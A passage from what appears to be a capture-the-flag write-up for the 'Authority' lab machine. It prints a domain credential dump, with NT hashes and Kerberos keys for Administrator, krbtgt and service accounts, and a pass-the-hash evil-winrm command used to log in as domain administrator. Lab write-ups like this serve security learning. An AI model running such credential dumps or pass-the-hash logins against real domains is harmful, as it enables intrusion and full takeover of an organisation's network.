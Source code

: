 ```
 0000   F9 41 4F E3 80 49 A5 BD  90 2D 68 32 F7 E3 8E E7   .AO..I...-h2....
 0010   7F 2D 9B 4B CE 29 B0 E6  E0 2C 59 5A AA B7 6F FF   .-.K.)...,YZ..o.
 0020   5A 4B D6 6B DB 2A FA 1E  84 09 35 35 9F 9B 2D 11   ZK.k.*....55..-.
 0030   69 4C DE 79 44 BA E1 4B  5B BC E2 77 F4 61 AE BA   iL.yD..K[..w.a..
NL$KM:f9414fe38049a5bd902d6832f7e38ee77f2d9b4bce29b0e6e02c595aaab76fff5a4bd66bdb2afa1e840935359f9b2d11694cde7944bae14b5bbce277f461aeba
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:de1afe0f24c54d8f8688ab8aa59cd587:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:bd6bd7fcab60ba569e3ed57c7c322908:::
svc_ldap:1601:aad3b435b51404eeaad3b435b51404ee:6839f4ed6c7e142fed7988a6c5d0c5f1:::
AUTHORITY$:1000:aad3b435b51404eeaad3b435b51404ee:9cf1b478ebcd502363a5c4daac1ef9da:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:833a0b117ddc0436aa7b009b1ae12dea392abc4dcdf82fc6ad1c22c696f86485
Administrator:aes128-cts-hmac-sha1-96:d50e8f68d4b756785130794e6402adb2
Administrator:des-cbc-md5:3bc43da7b34f709e
krbtgt:aes256-cts-hmac-sha1-96:1be737545ac8663be33d970cbd7bebba2ecfc5fa4fdfef3d136f148f90bd67cb
krbtgt:aes128-cts-hmac-sha1-96:d2acc08a1029f6685f5a92329c9f3161
krbtgt:des-cbc-md5:a1457c268ca11919
svc_ldap:aes256-cts-hmac-sha1-96:3773526dd267f73ee80d3df0af96202544bd2593459fdccb4452eee7c70f3b8a
svc_ldap:aes128-cts-hmac-sha1-96:08da69b159e5209b9635961c6c587a96
svc_ldap:des-cbc-md5:01a8984920866862
AUTHORITY$:aes256-cts-hmac-sha1-96:20b1a957f6ce9afb6b91baab30032dbe12fc3ac27b3eba4aa8525937722c6622
AUTHORITY$:aes128-cts-hmac-sha1-96:30ef68d5727d829a2998160dfe3710b8
AUTHORITY$:des-cbc-md5:e9da6775751a94b0
[*] Cleaning up...
```


Now that we dumped the hashes of both the local accounts we are able to log into the machine using the NT hash in combination with evil-winrm. In this case I used the NT hash of the domain administrator user.

```bash
evil-winrm -i 10.10.11.222 -u Administrator -H de1afe0f24c54d8f8688ab8aa59cd587
```

![Access as domain administrator](/assets/img/Authority/Authority_15.png)
